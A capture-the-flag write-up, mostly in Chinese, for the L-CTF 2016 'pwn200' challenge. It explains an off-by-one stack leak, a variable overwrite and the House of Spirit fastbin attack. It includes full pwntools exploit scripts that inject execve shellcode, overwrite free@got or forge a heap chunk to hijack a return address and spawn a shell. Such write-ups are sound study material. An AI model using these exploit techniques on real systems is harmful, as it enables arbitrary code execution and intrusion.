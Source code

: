 ### L-CTF 2016 pwn200
程序运行
程序分析
#### 漏洞简介
**The house of Spirit**
> The House of Spirit is a little different from other attacks in the sense that it involves an attacker overwriting an existing pointer before it is 'freed'. The attacker creates a 'fake chunk', which can reside anywhere in the memory (heap, stack, etc.) and overwrites the pointer to point to it. The chunk has to be crafted in such a manner so as to pass all the security tests. This is not difficult and only involves setting the size and next chunk's size. When the fake chunk is freed, it is inserted in an appropriate binlist (preferably a fastbin). A future malloc call for this size will return the attacker's fake chunk. The end result is similar to 'forging chunks attack' described earlier.

[The House Of Spirit](https://heap-exploitation.dhavalkapil.com/attacks/house_of_spirit.html)


#### 程序运行
1. **初始内容**
```
who are u?
Bill
Bill, welcome to xdctf
give me your id ~~?
001
give me money~
10000
```
2. **主要内容**
```
=======EASY HOTEL========
1. check in
2. check out
3. goodbye
```
**check in**: `malloc`
**check out**: `free`
**good bye**: `exit`
#### 程序分析
**1. checksec**
![result](./02.png)
**2. 漏洞一 (`off by one`)**
![result](./01.png)
> 当输入`48`个字符时, 会触发`off by one`漏洞, 将`0x400A8E`函数栈帧`RBP`打印出来.

**2. 漏洞二 (变量覆盖)**
![result](./03.png)
### 漏洞利用
**两种思路**
1. **思路(非HOS)**: 初始时输入`shellcode`, 泄露`RBP`,找出`Shellcode`地址. 覆盖dest变量值为`free@got`, `buf`中为`shellcode_addr + 其他任意字符`, 最后:输入`2`, 执行`free`(就是执行我们的`shellcode`).
```
#coding = utf8
from pwn import *
context(log_level="debug")

p = process('./pwn200')
elf = ELF('./pwn200')
free_got = elf.got["free"]

gdb.attach(p)
p.recvuntil('u?\n')

shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
p.send(shellcode+"a"*(48-len(shellcode)))

ebp = u64(p.recvuntil(' me your id ~~?\n')[48:48+6].ljust(8,'\x00')) # leak stack address
print "ebp = "+hex(ebp)
offset = 0x00007fff401d62e0 - 0x00007fff401d6290
shellcode_addr = ebp - offset
print "shellcode_addr = " + hex(shellcode_addr)
p.sendline('0') #id

p.recvuntil('\n')

payload = p64(shellcode_addr)
p.send(payload + '\x00'*(0x38-len(payload)) + p64(free_got))  #the juck data must be '\x00' in the got!
p.recvuntil('choice :')
p.sendline('2')
p.interactive()
```
2.**思路(HOS)**: 修改`0x400A29`函数的返回值地址为`shellcode`地址, 退出即可.
**leak address**
```
payload  = ''
payload += shellcode.ljust(48)
p.recvuntil('who are u?\n')
p.send(payload)
p.recvuntil(payload)

rbp_addr = u64(p.recvn(6).ljust(8, '\x00'))
shellcode_addr = rbp_addr - 0x50 # 20H + 30H
print "shellcode_addr: ", hex(shellcode_addr)
fake_addr = rbp_addr - 0x90 # 修改函数返回值地址用
```
**free(fake_addr)**
```
data = p64(0)*4 + p64(0) + p64(0x41) # p64(0)*4, strcpy不会复制任何字符到fake_addr
data = data.ljust(56, '\x00') + p64(fake_addr)
print data
p.send(data)

p.recvuntil('choice : ')
p.sendline('2') 	# free(fake_addr)
```
**malloc**
```
p.recvuntil('choice : ')
p.sendline('1')
p.recvuntil('long?')
p.sendline('48')    # 48 + 16 = 64 = 0x40, 大小要和fastbin中的大小一致, 这样才会返回我们的fake_addr
p.recvline('48')    # ptr = malloc(48)

data = 'a' * 0x18 + p64(shellcode_addr) # write to target_addr
data = data.ljust(48, '\x00')
```
**Quit**
```
p.recvuntil('choice')
p.sendline('3')

p.interactive()
```
###The Whole EXP
```
from pwn import *

context.log_level = 'debug'
# p = remote('127.0.0.1', 7777)
p = process('./pwn200')

free_got = 0x0000000000602018

shellcode = asm(shellcraft.amd64.linux.sh(), arch = 'amd64')

gdb.attach(p)
#part one
payload  = ''
payload += shellcode.ljust(48)

p.recvuntil('who are u?\n')
p.send(payload)
p.recvuntil(payload)

rbp_addr = u64(p.recvn(6).ljust(8, '\x00'))

shellcode_addr = rbp_addr - 0x50 # 20H + 30H
print "shellcode_addr: ", hex(shellcode_addr)
fake_addr = rbp_addr - 0x90 # offset 0x40 to shellcode, 0x400a29 return address


p.recvuntil('give me your id ~~?\n')
p.sendline('32') # id
p.recvuntil('give me money~\n')


#part two
#32bytes padding + prev_size + size + padding + fake_addr
data = p64(0) * 4 + p64(0) + p64(0x41)		# no strcpy
data = data.ljust(56, '\x00') + p64(fake_addr)
print data
p.send(data)

p.recvuntil('choice : ')
p.sendline('2') 	# free(fake_addr)

p.recvuntil('choice : ')
p.sendline('1') 	#malloc(fake_addr) #fake_addr

p.recvuntil('long?')
p.sendline('48')    # 48 + 16 = 64 = 0x40
p.recvline('48')    # ptr = malloc(48)

data = 'a' * 0x18 + p64(shellcode_addr) # write to target_addr
data = data.ljust(48, '\x00')

p.send(data)

p.recvuntil('choice')
p.sendline('3')

p.interactive()
```
### Related Link
[堆之House of Spirit ](https://www.anquanke.com/post/id/85357)(EXP不行)
